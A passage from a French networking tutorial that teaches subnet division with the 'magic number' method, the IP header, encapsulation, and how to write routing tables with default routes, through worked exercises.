Cependant, nous avons laissé un trou... Les adresses de 16 à 127 ne sont pas utilisées. C'est normal, et ce n'est pas grave de toute façon. Nous pourrons utiliser ces adresses pour des petits réseaux par la suite si nous le souhaitons.
Le principe est simple : vu que nous travaillons avec des réseaux dont la taille est un multiple de 2, un petit réseau pourra toujours démarrer sur un multiple d'un grand réseau.
Par exemple, tout multiple de 16 est un multiple de 8 :
0, 16, 32, 48... 0, 8, 16, 24, 32, 40, 48
On pourra donc toujours placer une petite plage d'adresses derrière une plage précédente plus grande. Et on pourra seulement parfois placer une grande plage derrière une petite, mais dans ce cas il faudra faire attention et bien utiliser la méthode magique.
Il est temps de faire quelques exercices pour vous entraîner.
Exercices
Ici encore, je vous conseille de ne pas négliger ces exercices. Faites-les avant de regarder les solutions.
Premier exemple
Découpez la plage suivante en trois sous-réseaux : 10.47.192.0/255.255.240.0, avec les populations suivantes :
880 techniciens ;
400 commerciaux ;
60 directeurs.
Attention, il y a une astuce à trouver pour la plage des directeurs !
D'abord, on calcule les masques pour chaque population:
Techniciens : 880 < 210 ce qui nous donne le masque 255.255.252.0.
Commerciaux : 400 < 29 ce qui nous donne le masque 255.255.254.0.
Directeurs : 60 < 26 ce qui nous donne le masque 255.255.255.192.
Si nous choisissons pour les directeurs le masque 255.255.255.192, le réseau pourra contenir au mieux 64 adresses, moins les adresses de broadcast et réseau, ce qui donne 62 adresses. C'est limite pour 60 directeurs, qui ont peut-être des imprimantes, plusieurs ordinateurs, etc.
Il est donc judicieux ici de choisir un masque nous permettant d'avoir plus d'adresses. Nous pouvons prendre le masque possédant un bit de plus pour la partie réseau de l'adresse, soit 255.255.255.128, qui nous assurera un réseau de 128 adresses, soit 126 adresses disponibles.
Cela nous donne donc :
Techniciens : 880 < 210 ce qui nous donne le masque 255.255.252.0.
Commerciaux : 400 < 29 ce qui nous donne le masque 255.255.254.0.
Directeurs : 60 < 27 ce qui nous donne le masque 255.255.255.128.
Ensuite on calcule la plage des techniciens : le nombre magique vaut 256 - 252 = 4.
La première adresse est 10.47.192.0 (donnée par l'énoncé) et la dernière 10.47.195.255.
Puis celle des commerciaux : le nombre magique vaut 256 - 254 = 2.
La première adresse est 10.47.196.0 (donnée par la fin de la plage des techniciens) et la dernière 10.47.197.255.
Enfin, celle des directeurs : le nombre magique vaut 256 - 128 = 128.
La première adresse est 10.47.198.0 (donnée par la fin de la plage des commerciaux) et la dernière 10.47.198.127.
Second exemple... le même que le premier !
En fait l'énoncé est le même, mais l'on vous demande de commencer par les directeurs, puis les commerciaux, et enfin les techniciens.
La bonne nouvelle, c'est que les masques restent les mêmes !
Techniciens : 255.255.252.0.
Commerciaux : 255.255.254.0.
Directeurs : 255.255.255.128.
On passe donc à la plage des directeurs : le nombre magique vaut 128.
La première adresse est 10.47.192.0 et donc la dernière va être 10.47.192.127.
Nous serions tentés de continuer pour la plage des commerciaux à l'adresse suivante, mais l'on sait que l'on prendrait alors des risques...
Pour les commerciaux, le nombre magique vaut 2. Il faut donc que la première adresse démarre sur un nombre pair sur son troisième octet (l'octet significatif dans le masque).
On ne peut pas démarrer en 192 puisque quelques adresses sont déjà prises par les directeurs. Il faut donc démarrer en 194.
Ce qui nous donne 10.47.194.0 pour la première adresse et 10.47.195.255 pour la dernière adresse.
On continue pour les techniciens : le nombre magique vaut 4.
192 est un multiple de 4, mais il est déjà utilisé par les directeurs. On peut par contre prendre 196.
Ce qui nous donne 10.47.196.0 pour la première adresse et 10.47.199.255 pour la dernière adresse.
On récapitule :
Directeurs : de 10.47.192.0 à 10.47.192.127.
Commerciaux : de 10.47.194.0 à 10.47.195.255.
Techniciens : de 10.47.196.0 à 10.47.199.255.
Et ça marche !
Euh... oui mais là on finit plus loin que la première fois, on n'aurait pas gâché plus d'adresses ?
Non, nous en avons gâché exactement le même nombre. Sauf qu'ici on le voit bien, car les adresses gâchées sont dans les "trous" que nous avons laissés entre chaque plage, alors que dans le premier cas il y a des adresses gâchées, mais elles se situent après nos trois plages. Le résultat est exactement le même !
À vous de jouer
Bon, je dis de jouer, mais je sais que tout le monde ne prend pas son pied à calculer des masques de sous-réseaux...
Mais globalement, vous pouvez vous entraîner en choisissant vous-mêmes vos plages d'adresses et les nombres de personnes dans chaque catégorie.
Vous pouvez aussi augmenter ou diminuer le nombre de catégories.
Bref, il y a à faire et si jamais vous ne vous sentez pas à l'aise ou avez des questions, n'hésitez pas à les poster sur le forum dans la rubrique adéquate (discussions informatiques par exemple).
vous savez maintenant découper une plage d'adresses en différents sous-réseaux ;
et vous savez utiliser la méthode magique pour aller plus vite dans vos découpages.
Il nous faut maintenant attaquer une des parties du cours les plus importantes, le routage.
Fatigué(e) de lire sur un écran ? Découvrez ce cours en livre.
Ainsi, nous savons maintenant dialoguer sur notre réseau local grâce à la couche 2. Nous savons aussi ce qu'est un réseau.
Il ne nous reste plus qu'à comprendre comment communiquer entre réseaux.
Pour cela, nous allons d'abord nous attarder sur le protocole de couche 3, IP.
Le protocole IP
Pour la couche 3 du modèle OSI, c'est le protocole IP, ou Internet Protocol.
Comme pour la couche 2, nous allons devoir définir de quelles informations nous allons avoir besoin, et dans quel ordre les placer.
Déjà, nous pouvons nous douter que nous allons avoir l'adresse IP de l'émetteur ainsi que celle du récepteur. Néanmoins, il va y avoir beaucoup d'autres informations.
Dans un premier temps, nous n'allons voir que celles qui nous intéressent, et nous ajouterons petit à petit les autres éléments de l'en-tête IP.
Nous avons donc :
adresse IP émetteur ;
adresse IP destinataire.
Jusqu'ici rien d'étonnant, il est normal d'avoir les informations identifiant les participants à la communication.
Toutefois, nous avons dit que l'adresse IP devait toujours être accompagnée du masque ; va-t-on avoir le masque aussi dans l'en-tête IP ?
La question à laquelle il va falloir répondre est surtout : est-il nécessaire de connaître le masque d'une machine pour lui envoyer un message ?
Pour y répondre, mettons-nous dans la peau d'une machine qui veut envoyer un message à une autre.
Nous sommes la machine A qui a pour adresse 192.168.0.1/24 et nous souhaitons envoyer un message à une machine B d'adresse 192.168.1.1/24.
Ce qui est important pour moi, en tant que machine A, c'est de savoir si la machine B est sur mon réseau. En effet, si elle est sur mon réseau, je lui parlerai grâce à la couche 2. Si elle est sur un autre réseau, il faudra que je fasse appel à la couche 3.
De quoi ai-je besoin pour savoir si la machine B est sur mon réseau ?
Pour savoir si la machine B est sur mon réseau, c'est facile !
Je regarde la plage d'adresses de mon réseau, et je n'ai plus qu'à regarder si l'adresse de la machine B appartient à cette plage.
Dans notre cas, ma plage d'adresses va de 192.168.0.0 à 192.168.0.255. Elle ne contient donc pas l'adresse de la machine B (192.168.1.1).
J'en déduis donc que B n'est pas sur mon réseau et qu'il va falloir utiliser la couche 3 pour communiquer avec elle.
Nous remarquons au passage que nous n'avons pas eu besoin du masque de la machine B pour savoir si elle appartenait à notre réseau.
Donc pour l'instant, nous n'avons besoin que de l'adresse IP de l'émetteur et de celle du récepteur. Nous les appellerons adresse IP source et adresse IP destination.
Nous allons donc avoir, comme pour la trame de couche 2, un format de message défini par le protocole IP.
Pour le protocole IP, le message s'appelle un datagramme ou un paquet.
Le datagramme
Comme pour la couche 2, le datagramme IP va être une suite de 0 et de 1 organisés.
Voici la forme qu'il va prendre :
???
Adresse IP SRC (source)
Adresse IP DST (destination)
Données à envoyer
Datagramme IP
Nous voyons ici que le format général est proche de celui de la trame Ethernet, mais que les informations contenues sont différentes et dans un ordre différent.
Normalement, cet en-tête devrait vous choquer ! Non ? Si ?
Eh bien oui, l'adresse IP de destination est en fin d'en-tête. Et pourtant, nous avions vu en couche 2 qu'il était important que l'adresse MAC de destination soit en début d'en-tête pour que la machine qui reçoit la trame sache immédiatement si celle-ci lui est destinée. Pourquoi cela serait différent pour IP ?
Les gens qui ont fabriqué le protocole IP seraient-ils tombés sur l'en-tête la tête ?
Eh bien non, au contraire. Pour le comprendre, nous allons devoir aborder d'autres notions.
L'encapsulation
Pour commencer, nous allons devoir répondre à une question.
Qu'est-ce qui circule sur le réseau ?
Des trames ? Des datagrammes ? Les deux ? Pour répondre à cette question, nous allons devoir nous replonger dans le modèle OSI.
Pour rappel, voici à la figure suivante le modèle OSI, en 7 couches.
Plus précisément, la figure suivante illustre l'envoi ou la réception d'une information.
Comme nous le voyons, un message est envoyé depuis la couche 7 du modèle OSI, et il traverse toutes les couches jusqu'à arriver à la couche 1 pour être envoyé sur le réseau.
Mais que devient notre message d'origine, ainsi que les en-têtes de chaque couche ?
En fait, un en-tête va être ajouté à chaque passage par une couche. On va ainsi accumuler les en-têtes des différentes couches (voir la figure suivante).
Au passage par la couche 4, on ajoutera l'en-tête de couche 4, puis celui de couche 3 en passant par la couche 3, et ainsi de suite.
Ce mécanisme s'appelle l'encapsulation, car on encapsule un message dans un autre.
Nous voyons clairement qu'au final, ce qui va circuler sur le réseau est une trame de couche 2, qui contient le datagramme de couche 3 (qui lui-même contiendra l'élément de couche 4).
Ainsi, je vous ai plus ou moins menti quand je vous ai donné le format d'une trame Ethernet.
Adresse MAC DST
Adresse MAC SRC
Protocole de couche 3
Données à envoyer
CRC
Trame Ethernet
Je ne vous ai pas dit que dans les données à envoyer, il y avait en fait l'en-tête de couche 3, l'en-tête de couche 4, puis enfin, les données à envoyer.
Adresse MAC DST
Adresse MAC SRC
Protocole de couche 3
en-tête de couche 3
en-tête de couche 4
Données à envoyer
CRC
Trame Ethernet
Ceci dit, j'ai eu raison de vous le présenter ainsi, car la couche 2 est incapable de lire les informations de couche 3 ou de couche 4, de même qu'elle ne comprend pas les données à envoyer. Pour elle, tout cela est une suite de 0 et de 1 qu'elle est incapable de comprendre, elle ne voit ça que comme des données...
Maintenant, vous, vous savez que parmi ces données il y a les en-têtes des couches supérieures.
Exemple réel
Nous allons utiliser le logiciel wireshark pour voir en pratique les trames qui passent sur notre réseau. Vous pouvez, vous aussi, si vous le souhaitez, télécharger et installer Wireshark pour voir les jolies trames que votre machine reçoit. Cependant, nous apprendrons plus tard dans le cours à nous en servir pleinement.
Wireshark est un sniffer. Un sniffer est un programme qui écoute sur le réseau, intercepte toutes les trames reçues et les affiche à l'écran.
Dans un premier temps, nous pouvons voir la liste des trames reçues lors d'une requête Google avec la question "Site du Zéro" (voir la figure suivante).
Ce n'est pas très parlant pour nous mais nous voyons que pour notre requête web, il y a eu plusieurs échanges de trames entre nous et Google.
Nous allons maintenant nous plonger dans le contenu d'une trame en cliquant sur l'une d'entre elles. Wireshark sépare les éléments de chacune des couches du modèle OSI, comme vous pouvez le voir sur la figure suivante.
Nous pouvons voir les éléments vus par la couche 1 (Frame 187...), puis la couche 2 Ethernet, puis la couche 3 IP, Internet Protocol, la couche 4 que nous ne connaissons pas encore et les données applicatives qui sont ici du web HTTP.
Nous allons enfin pouvoir voir le contenu de chacune des couches en cliquant sur le triangle en face d'une couche.
Commençons avec la couche 2 (voir la figure suivante).
Nous voyons bien les éléments que nous connaissons : l'adresse MAC destination et l'adresse MAC source. Wireshark reconnaît et nous montre qu'il s'agit d'une carte réseau Apple grâce aux trois premiers octets qui sont représentatifs du constructeur de la carte. Enfin, il nous montre le protocole de couche 3 utilisé qui est ici IP.
Passons ensuite à la couche 3 (voir la figure suivante).
Nous ne connaissons pas tous ces éléments, mais nous pouvons voir en fin d'en-tête les adresses IP source et destination.
Revenons à nos moutons
Oui, nous cherchions à comprendre pourquoi l'adresse IP de destination n'était pas en début d'en-tête IP ?
Nous avons maintenant des éléments pour le comprendre.
Quand un message arrive sur une machine, il remonte les couches du modèle OSI de la couche 1 à la couche 7. Il passe donc par la couche 2 qui lit l'adresse MAC de destination :
si c'est bien celle de la carte réseau, il lit le reste de la trame, puis transmet les données (le datagramme en fait !) à la couche 3 ;
si ce n'est pas celle de la carte réseau, il jette la trame à la poubelle.
Donc si le message arrive à la couche 3, cela veut obligatoirement dire que la machine sait déjà que le message lui est destiné, puisque l'adresse MAC de destination est la sienne. Elle n'a donc pas la nécessité de savoir immédiatement si l'adresse IP de destination est la sienne, puisqu'elle sait déjà que le datagramme est pour elle.
On peut donc placer l'adresse IP de destination où l'on veut dans l'en-tête IP. Les créateurs du protocole IP ne sont pas fous. :p
Nous connaissons donc maintenant deux éléments de l'en-tête IP et leur placement. Pour découvrir les autres éléments de l'en-tête IP, nous allons dès maintenant aborder l'élément essentiel de la couche 3, le routage !
Fatigué(e) de lire sur un écran ? Découvrez ce cours en livre.
Le routage va nous permettre d'envoyer un message en dehors de notre réseau.
Comme nous l'avons vu précédemment, les réseaux sont reliés les uns aux autres, et nous passons souvent par plusieurs réseaux pour en joindre un autre, vous vous rappelez de la figure suivante ?
Ensemble de réseaux connectés
Mais comment se fait la liaison entre ces réseaux ?
Eh bien comme pour la couche 2, nous avons un matériel spécifique pour gérer la connexion entre réseaux, le routeur.
Le routeur
Il doit donc avoir une interface dans chacun des réseaux auquel il est connecté.
C'est donc tout simplement une machine qui a plusieurs interfaces (plusieurs cartes réseau), chacune reliée à un réseau. Son rôle va être d'aiguiller les paquets reçus entre les différents réseaux.
Un ordinateur ayant deux cartes réseau pourra être un routeur.
Mais alors, qu'est-ce qui différencie un simple ordinateur d'un routeur ?
Très peu de choses en fait. La différence principale est qu'un routeur accepte de relayer des paquets qui ne sont pas pour lui alors qu'une simple machine les jettera à la poubelle.
Toute machine connectée à un réseau peut donc jouer le rôle de routeur. Il suffit d'activer le routage dessus. Nous verrons dans la partie pratique comment le faire.
Prenons un exemple
Nous allons nous mettre dans la peau d'un routeur.
Imaginons que nous sommes une machine ayant comme adresse MAC l'adresse 00:11:22:33:44:55 et comme adresse IP 192.168.0.1/24.
Nous recevons la trame suivante (dans laquelle nous indiquons aussi l'en-tête de couche 3) sur une de nos interfaces :
00:11:22:33:44:55
01:2B:45:56:78:ED
IP
???
IP SRC: 10.0.0.1
IP DST: 136.42.0.28
Données à envoyer
CRC
Trame Ethernet avec en-tête de couche 3
Quelques petites questions...
Quelle est l'adresse IP de la machine qui a envoyé ces informations ?
Cette adresse IP est bien l'adresse IP source 10.0.0.1.
Quelle est l'adresse MAC de la machine qui a envoyé ces informations ? (Attention au piège !)
Nous ne pouvons pas la connaître ! Eh oui, si vous vous souvenez de la couche 2, une adresse MAC est propre à un réseau local. En dehors de ce réseau, nous ne la voyons pas. Justement ici, la trame arrive sur l'interface de notre machine ayant pour adresse IP 192.168.0.1/24. Son réseau ne contient donc pas l'adresse IP 10.0.0.1.
La machine 10.0.0.1 ne fait pas partie de notre réseau et nous ne connaîtrons jamais son adresse MAC.
L'adresse MAC que nous voyons ici en adresse MAC source est celle du dernier routeur qui nous a envoyé la trame. Nous allons approfondir tout cela par la suite.
Vient maintenant une question importante.
Que se passe-t-il quand notre machine reçoit cette trame ?
Je vous propose que nous y répondions ensemble.
La trame arrive à ma carte réseau qui reçoit les 0 et les 1 et les envoie à mon système d'exploitation. La couche 2 de mon système d'exploitation reçoit les 0 et les 1 et les interprète pour me donner l'adresse MAC de destination de la trame.
C'est mon adresse MAC 00:11:22:33:44:55 !
Donc je lis la suite de l'en-tête de la trame pour voir qui m'envoie cette trame et à quel protocole de couche 3 la couche 2 doit l'envoyer. Il est inscrit IP, donc j'envoie la trame en enlevant l'en-tête Ethernet, ce qui donne le datagramme IP, à la couche 3 et plus précisément au protocole IP.
La couche 3, donc le protocole IP, lit l'ensemble des informations de l'en-tête IP, puisque nous savons maintenant que ce datagramme nous est destiné.
Et là, badaboum, l'adresse IP de destination du datagramme n'est pas la nôtre...
Ceci étant, ce n'est pas grave, car nous avons vu auparavant qu'il est normal pour un routeur de recevoir un message qui ne lui est pas destiné.
Son rôle va maintenant être d'aiguiller le datagramme vers sa destination.
Mais comment fait-il cela ?
Il possède en fait une table dans laquelle est indiqué le prochain routeur auquel il doit envoyer le datagramme pour que celui-ci arrive à sa destination.
Cette table est très importante et s'appelle la table de routage !
Je le répète, car elle est très importante : cette table est très importante et s'appelle la table de routage !
La table de routage
La table de routage va donc lister les routeurs auxquels je peux envoyer mon datagramme pour joindre une destination donnée.
La destination donnée ne va pas être une machine, mais un réseau. Si on devait indiquer un chemin pour chaque machine sur Internet, les tables de routage seraient énormes ! :p
Le principe est d'avoir d'un côté la liste des réseaux que l'on veut joindre, et de l'autre la liste des routeurs à qui nous devons envoyer le datagramme pour joindre les réseaux. On appelle aussi ce routeur une passerelle.
Voici un exemple de table de routage :
Table de routage
Réseau à joindre
passerelle
192.168.1.0/24
10.0.0.253
192.168.122.0/24
10.0.0.45
192.168.8.0/24
10.0.0.254
Les tables de routage posséderont donc toujours ces informations mais, selon les systèmes d'exploitation, le format de la table pourra être un peu plus compliqué et comporter des colonnes supplémentaires.
Par exemple, voici à la figure suivante la table de routage de ma machine sous Mac.
Table de routage Mac OS 2
On voit bien dans la colonne de gauche les réseaux que je veux joindre, et dans la colonne juste à sa droite les passerelles (gateway en anglais) par lesquelles je dois passer pour joindre le réseau correspondant. Les autres colonnes ne nous intéressent pas pour l'instant.
On récapitule :
un routeur est une machine possédant plusieurs interfaces ;
chaque interface d'un routeur est connectée à un réseau, le routeur relie ainsi plusieurs réseaux entre eux ;
toute machine ayant plusieurs interfaces peut jouer le rôle de routeur, même le vieux PC de mamie ;
un routeur se différencie d'une simple machine, car il accepte de relayer des paquets qui ne lui sont pas destinés ;
un routeur aiguille les paquets grâce à sa table de routage ;
la table de routage indique quelle passerelle utiliser pour joindre un réseau.
Il est important de bien comprendre et retenir ce qui précède, car le routage est la base du fonctionnement d'Internet !
Si l'on reprend le dernier point, la table de routage indique quelle passerelle utiliser pour joindre un réseau.
Cela nous amène à une nouvelle question.
Si je suis connecté à Internet, dois-je avoir une route pour chacun des milliers de réseaux d'Internet ?
Pour répondre à cette question, nous allons voir qu'un mécanisme simple a été mis en place : la route par défaut.
La route par défaut
Nous venons de voir dans ma table de routage sous Mac une information importante. Dans la première ligne, ce n'est pas un réseau qui est indiqué, mais le mot défaut.
Cela indique que si une adresse que je veux joindre n'appartient à aucun des réseaux indiqués dans ma table, il faudra emprunter la passerelle indiquée dans la route par défaut. Cela va régler le problème lié à la multitude de réseaux sur Internet. Il me suffira d'indiquer dans ma table une route par défaut qui permettra d'aller vers Internet et donc de joindre tous les réseaux qui y sont présents.
Ceci reste encore très abstrait et sûrement complexe à comprendre, alors prenons un petit exemple pour fixer les idées.
Exercice de routage
Voici en figure suivante un schéma réseau qui contient plusieurs réseaux. Nous allons essayer d'écrire les tables de routage des routeurs.
Réseau simple
Sur ce schéma, nous voyons deux réseaux (192.168.0.0/24 et 192.168.1.0/24) reliés entre eux grâce au routeur 1 qui possède une interface réseau dans chacun de ces réseaux.
Pour les adressages des machines, je n'ai indiqué que le dernier octet de l'adresse, car les trois premiers identifient le réseau et sont donc déjà connus. Par exemple pour la machine en haut à gauche d'adresse .1 qui est dans le réseau 192.168.0.0/24, on peut déduire son adresse complète qui est 192.168.0.1.
Maintenant, essayons d'écrire la table de routage du routeur 1.
Pour cela, je vais vous donner une méthode qui s'appliquera toujours et qui fonctionnera pour tous les cas :
indiquer les réseaux auxquels ma machine est connectée ;
indiquer la route par défaut ;
indiquer tous les autres réseaux que je ne peux pas encore joindre avec les deux étapes précédentes.
Appliquons la méthode.
1 - Indiquer les réseaux auxquels ma machine est connectée.
Mon routeur 1 est connecté à deux réseaux, 192.168.0.0/24 et 192.168.1.0/24.
Table de routage du routeur 1
Réseau à joindre
passerelle
192.168.0.0/24
?
192.168.1.0/24
?
Pour l'instant, nous ne nous soucions pas d'indiquer les passerelles, cela viendra dans un second temps.
Passons à la seconde étape.
2- Indiquer la route par défaut.
Le cas est un peu particulier, car notre routeur est déjà connecté à tous les réseaux du schéma. Il n'a donc pas besoin d'une route par défaut pour aller vers d'autres réseaux, il les connaît déjà tous !
3- Indiquer tous les autres réseaux que je ne peux pas encore joindre avec les deux étapes précédentes.
Même chose que la réponse précédente, il n'y a pas de réseau supplémentaire à indiquer.
La table de routage sera donc :
Table de routage du routeur 1
Réseau à joindre
passerelle
192.168.0.0/24
?
192.168.1.0/24
?
Il nous reste à y indiquer les passerelles. Pour cela, nous allons appliquer une règle simple : la passerelle pour joindre un de mes réseaux est mon adresse.
Ici, cela va donner :
Table de routage du routeur 1
Réseau à joindre
passerelle
192.168.0.0/24
192.168.0.254
192.168.1.0/24
192.168.1.254
Et voilà ! Nous avons mis en place la table de routage du routeur 1 !
Maintenant, est-ce que cela suffit pour faire dialoguer nos deux réseaux entre eux ?
La réponse est malheureusement non, bien que le routeur sait maintenant aiguiller les paquets qu'il reçoit.
Dans ce cas, comment les machines du réseau vont savoir qu'il faut lui envoyer les paquets ?
Eh bien elles auront, elles aussi, une table de routage. Toute machine connectée à un réseau possède une table de routage, même une imprimante, un téléphone, ou le vieux PC de mamie... :p
C'est grâce à cette table de routage qu'une machine peut savoir à quelle passerelle envoyer un paquet quand elle veut joindre un autre réseau que le sien. On peut donc reprendre le schéma précédent et, par exemple, faire la table de routage de la machine 192.168.0.1.
On utilise notre méthode :
1- Indiquer les réseaux auxquels ma machine est connectée.
Ma machine est connectée à un seul réseau 192.168.0.0/24, ce qui donne pour la table de routage :
Table de routage de 192.168.0.1
Réseau à joindre
passerelle
192.168.0.0/24
?
2- Indiquer la route par défaut.
Cette fois, nous pouvons indiquer la route par défaut pour joindre un autre réseau que le nôtre, par exemple 192.168.1.0/24 (même si nous n'avons pas trop le choix dans notre exemple, vu qu'il n'y a qu'un réseau...) :
Table de routage de 192.168.0.1
Réseau à joindre
passerelle
192.168.0.0/24
?
192.168.1.0/24
?
3- Indiquer tous les autres réseaux que je ne peux pas encore joindre avec les deux étapes précédentes.
Là encore, nous avons déjà indiqué les deux réseaux que nous pouvons joindre, donc cette étape peut être oubliée.
Notre table de routage est donc :
Table de routage de 192.168.0.1
Réseau à joindre
passerelle
192.168.0.0/24
?
192.168.1.0/24
?
Nous savons déjà remplir la première ligne, car elle concerne notre propre réseau, nous pouvons donc y indiquer notre propre adresse en passerelle :
Table de routage de 192.168.0.1
Réseau à joindre
passerelle
192.168.0.0/24
192.168.0.1
192.168.1.0/24
?
Il nous reste à indiquer la passerelle à utiliser pour joindre le réseau 192.168.1.0/24.
La question est donc la suivante.
À qui la machine 192.168.0.1 doit envoyer ses paquets pour joindre le réseau 192.168.1.0/24 ?
On se doute qu'il va falloir les envoyer au routeur R1, mais à laquelle de ses deux interfaces ?
Pour répondre à cela, je vous propose d'utiliser une métaphore pour nos réseaux.
Nous allons imaginer que chacun de nos réseaux est une pièce d'une maison, et que le routeur est la porte qui permet de relier les deux pièces. La porte a deux poignées, chacune dans une des deux pièces, comme les deux interfaces de notre routeur.
Quand je suis dans une pièce et que je veux aller dans l'autre, quelle poignée puis-je utiliser ? Celle qui est de mon côté de la porte, ou l'autre ?
La réponse est évidente : il faut que j'utilise la poignée qui est de mon côté de la porte !
Eh bien c'est pareil pour le routage. Pour joindre un réseau, une machine doit utiliser une passerelle qui appartient à son propre réseau.
Ici, ce sera donc l'adresse du routeur qui est sur le même réseau que la machine 192.168.0.0/24, soit l'adresse 192.168.0.254. Ce qui nous donne :
Table de routage de 192.168.0.1
Réseau à joindre
passerelle
192.168.0.0/24
192.168.0.1
192.168.1.0/24
192.168.0.254
Youhou ! Nous savons maintenant faire des tables de routage !
Pour en être bien sûrs, nous allons prendre des exemples un peu plus complexes. Observez la figure suivante.
Réseau plus complexe
Ça, c'est du réseau ! Bien que cela reste en réalité un très petit réseau, pour nous, c'est déjà pas mal ! Nous allons donc refaire, comme dans l'exercice précédent, les tables de routage du routeur 1 et de la machine 192.168.0.1.
À vous de jouer ! Et n'oubliez pas d'utiliser la méthode en trois étapes.
Pour le routeur 1.
Commençons par le routeur 1, pour la première étape, rien n'a changé, il a toujours ses deux interfaces connectées aux mêmes réseaux.
Table de routage du routeur 1
Réseau à joindre
passerelle
192.168.0.0/24
192.168.0.254
192.168.1.0/24
192.168.1.254
Pour l'étape 2, ça change.
2- Indiquer la route par défaut.
Ici, le routeur 1 doit avoir une route par défaut, car il peut aller sur Internet, mais il ne peut pas connaître tous les réseaux d'Internet. Sa passerelle doit lui permettre d'aller sur Internet et sera donc la première étape pour aller vers Internet. Il doit passer par le routeur 3, sur l'interface qui est sur le même réseau que lui, soit 192.168.1.253.
Table de routage du routeur 1
Réseau à joindre
passerelle
192.168.0.0/24
192.168.0.254
192.168.1.0/24
192.168.1.254
défaut
192.168.1.253
Mais vu qu'il va devoir aussi passer par le routeur 4 ensuite, pourquoi ne pas indiquer directement le routeur 4 ?
Eh bien c'est l'histoire du serpent qui se mord la queue, ou de la poule et de l'œuf ! ;)
Si, pour sortir de mon réseau, j'indique une passerelle qui est en dehors de mon réseau, je ne pourrai jamais l'atteindre, car pour l'atteindre il faudrait que je sache sortir de mon réseau... et pour sortir de mon réseau il faudrait atteindre la passerelle... Je ne continue pas, vous voyez qu'on n'arrivera jamais à sortir de notre réseau dans ce cas !
On en déduit une règle très importante : les passerelles indiquées dans ma table de routage appartiennent toujours à l'un de mes réseaux.
Ainsi, pour mon routeur 1, je ne devrais trouver que des passerelles qui sont dans les réseaux 192.168.0.0/24 et 192.168.1.0/24.
Ouf, c'est bien le cas dans ma table de routage !
Passons à la troisième étape.
3- Indiquer tous les autres réseaux que je ne peux pas encore joindre avec les deux étapes précédentes.
Là, ça se complique.
Il y a globalement 4 réseaux sur notre schéma (192.168.0.0/24, 192.168.1.0/24, 10.0.0.0/24 et 10.0.1.0/24) plus Internet.
Actuellement, nous savons aller vers les deux premiers. Nous savons aussi aller vers Internet grâce à notre passerelle par défaut. Il nous reste donc deux réseaux à joindre, 10.0.0.0/24 et 10.0.1.0/24.
Cependant, si on y regarde de plus près, nous savons aussi aller vers le réseau 10.0.1.0/24, car il est derrière ma passerelle par défaut.
En effet, imaginons que le routeur 1 veut envoyer un paquet vers la machine 10.0.1.1. Il va aller voir dans sa table de routage et va la parcourir.
En fait, il va parcourir les routes une à une et va regarder si la machine qu'il veut joindre appartient aux réseaux définis dans les routes :
10.0.1.1 n'appartient pas au réseau 192.168.0.0/24 de la première route, donc elle ne convient pas ;
10.0.1.1 n'appartient pas non plus au réseau 192.168.1.0/24 de la seconde route, donc elle ne convient pas non plus ;
comme la définition de la route par défaut nous le dit, nous allons utiliser la passerelle associée à la route par défaut, et notre paquet va être envoyé à l'adresse 192.168.1.253 du routeur 3 ;
ça y est, vu que le routeur 3 est connecté au réseau 10.0.1.0/24 que nous voulons joindre, il saura lui transmettre le paquet.
Vous l'aurez peut-être remarqué aussi, quand nous parcourons une table de routage afin de trouver une route pour joindre une destination, nous faisons exactement les mêmes calculs que nous avons faits dans le chapitre sur les masques de sous-réseau. C'est-à-dire, savoir si une adresse appartient à un réseau.
Mais revenons à l'exercice, car nous savons joindre tous les réseaux sauf un, le réseau 10.0.0.0/24.
Eh bien nous allons ajouter une route pour lui. En regardant le schéma, nous voyons qu'il faut passer par l'adresse 192.168.0.253 du routeur 2 pour aller vers le réseau 10.0.0.0/24. Ce qui nous donne au final :
Table de routage du routeur 1
Réseau à joindre
passerelle
192.168.0.0/24
192.168.0.254
192.168.1.0/24
192.168.1.254
défaut
192.168.1.253
10.0.0.0/24
192.168.0.253
Il existe une autre écriture possible pour la route par défaut qui est parfois identifiée par le réseau 0.0.0.0/0.
Ceci donne une autre écriture de la table de routage :
Table de routage du routeur 1
Réseau à joindre
passerelle
192.168.0.0/24
192.168.0.254
192.168.1.0/24
192.168.1.254
0.0.0.0/0
192.168.1.253
10.0.0.0/24
192.168.0.253
Pour la machine 192.168.0.1, je vous donne directement la correction :
Table de routage de 192.168.0.1
Réseau à joindre
passerelle
192.168.0.0/24
192.168.0.1
0.0.0.0/0
192.168.0.254
10.0.0.0/24
192.168.0.253
Voilà ! Vous savez maintenant comment les paquets sont aiguillés d'un réseau à un autre et comment fonctionne le routage.
Vous êtes aussi capables d'écrire les tables de routage des machines pour des réseaux simples.
Si vous voulez vous entraîner, voici les tables de routage de quelques autres machines du schéma :
Table de routage de 10.0.0.1
Réseau à joindre
passerelle
10.0.0.0/24
10.0.0.1
0.0.0.0/0
10.0.0.254
Table de routage du routeur 2
Réseau à joindre
passerelle
10.0.0.0/24
10.0.0.254
192.168.0.0/24
192.168.0.253
0.0.0.0/0
192.168.0.254
Table de routage de 10.0.1.2
Réseau à joindre
passerelle
10.0.1.0/24
10.0.1.2
0.0.0.0/0
10.0.1.254
192.168.1.0/24
10.0.1.253
192.168.0.0/24
10.0.1.253
10.0.0.0/24
10.0.1.253
Dans ce cas, on peut aussi simplifier en regroupant les réseaux 192.168.0.0/24 et 192.168.1.254/24 en un seul réseau avec un masque plus grand :
Table de routage de 10.0.1.2
Réseau à joindre
passerelle
10.0.1.0/24
10.0.1.2
0.0.0.0/0
10.0.1.254
192.168.0.0/23
10.0.1.253
10.0.0.0/24
10.0.1.253
Maintenant que nous commençons à avoir quelques connaissances théoriques assez poussées, nous allons pouvoir passer à la pratique et aux TP ! Enfin !
Fatigué(e) de lire sur un écran ? Découvrez ce cours en livre.
Nous allons travailler sous Linux. Il n'est pas question ici de comparer Windows et Linux, qui ont chacun leurs avantages et inconvénients, mais de choisir le système le mieux adapté à ce que nous voulons faire, c'est-à-dire du réseau.
L'avantage sous Linux est que nous allons pouvoir voir concrètement ce que nous faisons. Accéder aux fichiers de configuration, mettre en place des fonctions avancées, etc.
Pour ceux qui n'ont pas l'habitude de Linux, la première étape sera de se familiariser avec ce système. Ne vous inquiétez pas, ce n'est pas du tout sorcier.
Ce qui nous intéresse dans ce tutoriel n'est pas le système mais le réseau. Je vous laisserai donc vous occuper d'installer et mettre en place les outils et systèmes nécessaires. Vous pouvez par exemple commencer par l'excellent tutoriel de M@teo21 sur Linux.
L'architecture
En réseau, on parle souvent d'architecture pour indiquer comment les machines sont branchées entre elles.
